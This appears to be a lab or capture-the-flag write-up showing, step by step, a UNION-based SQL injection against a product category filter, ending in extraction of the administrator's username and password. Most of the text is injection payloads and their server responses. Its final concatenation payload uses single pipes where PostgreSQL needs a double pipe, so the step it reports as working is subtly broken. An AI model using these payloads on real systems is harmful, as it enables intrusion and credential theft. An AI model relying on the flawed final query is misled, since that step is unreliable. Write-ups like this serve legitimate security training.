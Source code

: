 # SQL injection, retrieving multiple values in a single column

### Goal:
`Log in to the application as the administrator user`
### Info: The injection point is the product category filter
`target.com/filter?category=<input>`
### Info: The database contains the table 'users' and the columns 'username' and 'password'

<br><br>

**<ins>Step 1: Test injection point</ins>**

category='

`500: server error`<br><br>

category='--

`200`
<br><br>

**<ins>Step 2: Enumerate data output with UNION attack</ins>**

category='UNION SELECT NULL--

`500 server error`<br><br>

category='UNION SELECT NULL,NULL--

`200`

category='UNION SELECT 'a','b'--

`500 server error`

At least one of these columns cannot output strings.<br><br>

category='UNION SELECT 'a',NULL--

`500 server error`<br><br>

category='UNION SELECT NULL,'b'--

`200`

This means that the second column can output strings.<br><br>

**<ins>Step 3: Enumerate database with UNION attack</ins>**

category='UNION SELECT NULL,@@version--

`500 server error`

This means the database is not MySQL or Microsoft.<br><br>

category='UNION SELECT NULL,version()--

`PostgreSQL 12.16`

This allows us to craft our payloads to work with Postgre syntax.<br><br>

**<ins>Step 4: Exfiltrate data</ins>**

category='UNION SELECT NULL,(username|':'|password) FROM users WHERE username='administrator'--

`<password>`

Attempting to log in with this password grants us administrative access.
